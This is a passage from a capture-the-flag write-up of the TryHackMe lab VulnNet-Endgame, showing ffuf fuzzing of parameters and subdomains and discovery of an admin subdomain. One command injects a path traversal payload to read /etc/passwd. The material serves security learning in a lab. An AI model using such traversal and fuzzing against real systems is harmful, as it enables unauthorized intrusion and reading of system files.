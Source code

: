 But nothing...

How about POST data?

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-Endgame]
└─# ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -X POST -d "FUZZ=../../../../../../../../etc/passwd" -u "http://api.vulnnet.thm/index.php" -fw 4
[...]
```

Again, nothing...

It's also weird that sometimes I send a GET request to `index.php`, and it shows this error message:

```
Connection failed: No such file or directory
```

I googled about this error message, and it appears to be MySQL. Maybe the API is trying to connect to the database via socket, and PHP can't find the socket file?

It seems like a deadend here. Let's **fuzz the subdomain again but with a bigger wordlist**.

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-Endgame]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://vulnnet.thm/ -H "Host: FUZZ.vulnnet.thm" -timeout 30 -t 10 -fw 9
[...]
blog                    [Status: 200, Size: 19316, Words: 1236, Lines: 391, Duration: 408ms]
shop                    [Status: 200, Size: 26701, Words: 11619, Lines: 525, Duration: 260ms]
api                     [Status: 200, Size: 18, Words: 4, Lines: 1, Duration: 333ms]
admin1                  [Status: 307, Size: 0, Words: 1, Lines: 1, Duration: 18331ms]
```

Found new subdomain!!

**Add `admin1` subdomain to `/etc/hosts`:**
```
10.10.214.82 vulnnet.thm shop.vulnnet.thm api.vulnnet.thm blog.vulnnet.thm admin1.vulnnet.thm
```

**http://admin1.vulnnet.thm/en/:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/VulnNet-Endgame/images/a5.png)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-Endgame]
└─# curl -vv http://admin1.vulnnet.thm                                                     
[...]
< HTTP/1.1 307 Temporary Redirect
[...]
< location: http://admin1.vulnnet.thm/en/
[...]
```

When I reach the webroot directory, it redirects me to `/en/`.
